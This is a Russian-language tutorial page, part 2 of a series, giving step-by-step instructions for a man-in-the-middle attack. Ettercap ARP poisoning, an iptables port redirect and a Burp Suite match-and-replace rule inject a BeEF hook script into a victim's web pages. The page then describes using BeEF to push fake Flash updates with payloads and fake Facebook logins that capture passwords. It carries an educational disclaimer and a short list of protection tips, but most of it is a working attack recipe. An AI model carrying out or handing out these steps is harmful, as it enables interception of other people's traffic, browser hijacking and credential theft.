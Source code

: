 <h1>(Ettercap, Burp Suite, BeEF). MITM. Часть 2. Использование Burp Suite в атаках MITM. Подцепление на BeEF.</h1>

<b>Материал предоставлен в ознакомительных и образовательных целях.</b><br>

<b><i>Содержание</i></b><br>
<a href="#introduction">1. Введение. Требования.</a><br>
<a href="#introtoxss">2. Понятие XSS.</a><br>
<a href="#prepare">3. Подготовка среды.</a><br>
<a href="#ettercap">4. Запускаем Ettercap.</a><br>
<a href="#burpsuite">5. Запускаем Burp Suite.</a><br>
<a href="#beef">5. Запускаем BeEF.</a><br>
<a href="#configureburpsuite">6. Продолжаем конфигурировать Burp Suite.</a><br>
<a href="#example">7. Работа с BeEF.</a><br>
<a href="#end">8. Подведение итогов. Рекомендации по защите. Полезные ссылки.</a><br>

<p><a name="introduction"></a></p>
<h2>Введение. Требования.</h2>
Рад приветствовать читателей. В этой статье мы разберем использование утилиты Burp Suite для атаки MITM. Вообще, данная утилита предназначена для тестирования веб-приложений (к которым мы вернемся позже), но ее можно использовать также много еще для чего. Как уже ранее было сказано, будет использовать в атаке MITM.<br><br>
<i>Если вы не читали первую статью про MITM, обязательно прочитайте ее перед этой. Там рассмотрены понятия атаки MITM и использование утилит Bettercap и net-creds.</i><br><br>


Требования:
<ul>
  <li>Иметь доступ к сети, в которой находится цель</li>
</ul>
<i>Примечание: </i> если у вас уже есть доступ к сети, вам не нужен Wi-Fi адаптер с поддержкой режима 
мониторинга. Главное быть просто подключенным к сети.


<p><a name="introtoxss"></a></p>
<h2>Понятие XSS.</h2>
XSS (Cross Site Scripting, получил аббревиатуру XSS, а не CSS, для избежания путаницы с CSS в HTML) - атака, которая заключается в том, чтобы запустить вредносный JavaScript на стороне пользователя. <br>
Уязвимости XSS делятся на три типа:
<ul>
  <li>
    <b>Stored XSS</b><br>
    &nbsp;&nbsp;&nbsp;Пример: на доске объявлений в поле имя ввел &lt;script&gt;alert('Stored XSS')&lt;/script&gt; и теперь каждый раз, когда кто-то заходит на страницу его профиля, он видит на экране сообщение 'Stored XSS'
  </li>
  
  <li>
    <b>Reflected XSS</b><br>
    &nbsp;&nbsp;&nbsp;Пример: http://myunsafewebsite.com/store/product.php?id=&lt;script&gt;alert('ReflectedXSS')&lt;/script&gt;
  </li>
  
  <li>
    <b>DOM-Based XSS</b><br>
    &nbsp;&nbsp;&nbsp;Пример: http://myunsafewebsite.com/arictle/25/text.html#&lt;script&gt;alert('DOM-BasedXSS')&lt;/script&gt;
  </li>
</ul><br>
Приведенная выше информация на данный момент нам не особо будет нужна, т.к. безопасность веб-приложений у нас еще не скоро. Для общего развития, можно сказать.


<p><a name="prepare"></a></p>
<h2>Подготовка среды.</h2>
Чтобы было удобнее:
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">sudo su</pre>

Установите BeEF:
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">apt update && apt install beef-xss</pre>

<p><a name="ettercap"></a></p>
<h2>Запускаем Ettercap.</h2>
Включите форвард пакетов:
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">echo "1" > /proc/sys/net/ipv4/ip_forward</pre>

Запустите Ettercap:
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">ettercap -G</pre>

<ul>
  <li>Когда откроется окно Ettercap, выберите интерфейс, который хотите использовать и нажмите ОК.</li>
  <li>Нажмите на кнопку Show hosts (у нее иконка сервера)</li>
  <li>Нажмите на лупу для того, чтобы начать поиск хостов (если нужного не появилось, попробуйте еще раз, иногда приходится трижды нажимать)</li>
  <li>Выберите IP-адрес роутера как цель 1</li>
  <li>Выберите IP-адрес атакуемого как цель 2</li>
  <li>Нажмите на меню MITM</li>
  <li>Выберите ARP Poisoning, убедитесь, что стоит галочка Sniff remote connections и нажмите ОК</li>
</ul>

(в другом терминале) 
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">sudo su</pre>
Чтобы перенаправлять данные с порта 80 на 8080:
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080</pre>


<p><a name="burpsuite"></a></p>
<h2>Запускаем Burp Suite.</h2>

Запустите Burp Suite.
<ul>
  <li>
    Во вкладке Proxy перейдите в подраздел Options
  </li>
  <li>
    &nbsp;&nbsp;&nbsp;&nbsp;В разделе Proxy Listeners нажмите кнопку Add
  </li>
  <li>
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;В поле Bind to port укажите порт 8080
  </li>
  <li>
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;В списке выберите Specific address и в выпадающем меню выберите IP-адрес, который начинается на 192.168.0/1.
  </li>
  <li>
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;В списке выберите Specific address и в выпадающем меню выберите IP-адрес, который начинается на 192.168.0/1.
  </li>
  <li>
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Во вкладке Request Handling поставьте галочку “Support invisible proxying”
  </li>
  <li>
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Нажмите ОК
  </li>
  <li>
    Во вкладке Proxy перейдите в подраздел Intercept
  </li>
  <li>
    &nbsp;&nbsp;&nbsp;&nbsp;Нажмите на Intercept is ON для того, чтобы выключить перехват и перевести кнопку в положение Intercept is OFF
  </li>
</ul>


<p><a name="beef"></a></p>
<h2>Запускаем BeEF.</h2>
Запускаем BeEF:
<pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">sudo beef-xss</pre>
При первом запуске потребует задать логин и пароль. Пароль должен отличаться от beef. Этот логин/пароль потребуется для входа в веб-интерфейс BeEF.


<p><a name="configureburpsuite"></a></p>
<h2>Продолжаем конфигурировать Burp Suite.</h2>
<ul>
  <li>Во вкладке Proxy перейдите в подраздел Options</li>
  <li>&nbsp;&nbsp;&nbsp;&nbsp;Крутите вниз, пока не найдете Match and Replace</li>
  <li>&nbsp;&nbsp;&nbsp;&nbsp;В этом разделе нажмите кнопку Add</li>
  <li>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Ставим тип Response body</li>
  <li>
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;В поле Match: вписывайте
    <pre class="hljs" style="display: block; overflow-x: auto; padding: 0.5em; background: rgb(240, 240, 240) none repeat scroll 0% 0%; color: rgb(68, 68, 68);">&lt;\/head&gt;</pre>
  </li>
  <li>
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;В поле Replace вписывайте:
    <pre>&lt;script src=”192.168.0/1.x:3000/hook.js”&gt;&lt;/script&gt;&lt;/head&gt;</pre>
    где 192.168.0/1.x - ваш IP-адрес
  </li>
  <li>
    &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Поставьте галочку “Regex Match”
  </li>
</ul>

Ждите, пока атакуемый откроет страницу http://. Если вам нужно внедрять этот скрипт и на страницы https://, то единственный вариант - использовать Ettercap с модулем SSLStrip (который работает криво). Вариант использовать Bettercap вместо Ettercap - не вариант, т.к. Bettercap занимает порт 8080, хотя вы можете попробовать указать в Burp Suite другой порт и в iptables - также другой, не тестировал.


<p><a name="beef"></a></p>
<h2>Работа с BeEF.</h2>
BeEF позволяет практически управлять браузером, когда открыта вкладка со скриптом. Можно показать фейковое уведомление об обновлении Flash Player, куда указать исполняемый файл с полезной нагрузкой, показать окно авторизации в Facebook (истекла сессия, введите логин/пароль), после чего он попадет вам в консоль и т.д.

<i>Пример использования в работе...</i>


<p><a name="end"></a></p>
<h2>Подведение итогов. Рекомендации по защите. Полезные ссылки.</h2>
<h3>Полезные ссылки.</h3>
<ul>
  <li><a href="https://cisoclub.ru/rukovodstvo-po-osushhestvleniyu-cross-site-scripting-xss/" target="_blank">Hackware: руководство по осуществлению XSS атаки</a></li>
  <li><a href="https://ru.wikipedia.org/wiki/Межсайтовый_скриптинг" target="_blank">Википедия: межсайтовый скриптинг</a></li>
</ul>

<h3>Рекомендации по защите.</h3>
<ul>
  <li>Не использовать открытые сети Wi-Fi</li>
  <li>Поддерживать безопасность личной сети Wi-Fi, иначе будет равноценна открытой сети</li>
  <li>Использовать расширение NoScript (<a href="https://chrome.google.com/webstore/detail/noscript/doojmbjmlfjjnbmnoijecmcbfeoakpjm" target="_blank">Chrome Web Store</a> | <a href="https://addons.mozilla.org/en-US/firefox/addon/noscript/" target="_blank">Firefox Browser Add-ons</a>)</li>
</ul>

Итак, мы познакомились с подцеплением на BeEF при помощи Burp Suite.<br><br>
<a href="../index">Назад к списку статей...</a>
